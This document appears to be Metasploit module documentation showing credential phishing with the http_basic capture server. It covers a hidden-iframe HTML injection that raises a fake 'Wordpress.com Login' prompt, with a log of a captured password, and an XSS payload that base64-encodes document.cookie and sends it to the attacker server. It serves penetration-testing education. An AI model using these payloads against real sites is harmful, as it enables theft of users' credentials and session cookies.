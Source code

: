 ### HTML Injection Social Engineering

In this scenario, we're able to inject HTML (but not script) into a website.  We'll inject an `iframe`
that will load our basic authentication website.  This payload will pop-up a login box, with the REALM (title)
set to the website, which will hopefully trick a user into entering their credentials.
**The following scenario is a demonstration, no actual vulnerability was identified, or tested.
The HTML was simply edited in the local browser.**

HTML Payload Injected:

```html
&lt;iframe width="0" height="0" src="http://127.0.0.1/">&lt;/iframe>
```

Server:

```
msf > use auxiliary/server/capture/http_basic 
msf auxiliary(server/capture/http_basic) > set uripath '/'
uripath => /
msf auxiliary(server/capture/http_basic) > set REALM "Wordpress.com Login"
REALM => Wordpress.com Login
msf auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.2.117:80/
[*] Server started.
[*] Sending 401 to client 127.0.0.1
[+] 127.0.0.1 - Credential collected: "metasploit_blog:ms08-0sK1NG!" => /
```

Client:

![Injected Payload](https://user-images.githubusercontent.com/752491/48039039-326e1880-e141-11e8-9971-d9c88081d0df.png)

### XSS Cookie Theft

In this scenario, we're able to inject JavaScript into a website.  We'll first get the user's cookie, then with jQuery
pull the username from the `username` field.  Because the cookie may contain fields break URI parsing (like `@`)
we use `btoa` to base64 encode the cookie.  Next we'll write an `iframe`
that will silently attempt a login to our basic authentication website.
**The following scenario is a demonstration, no actual vulnerability was identified, or tested.
The HTML was simply edited in the local browser.**

Payload:

```html
&lt;script>
var cookie = document.cookie;
var username = $('#username').text();
document.write('&lt;iframe width="0" height="0" src="http://' + username + ':' + btoa(cookie) + '@127.0.0.1/">&lt;/iframe>');
&lt;/script>
```
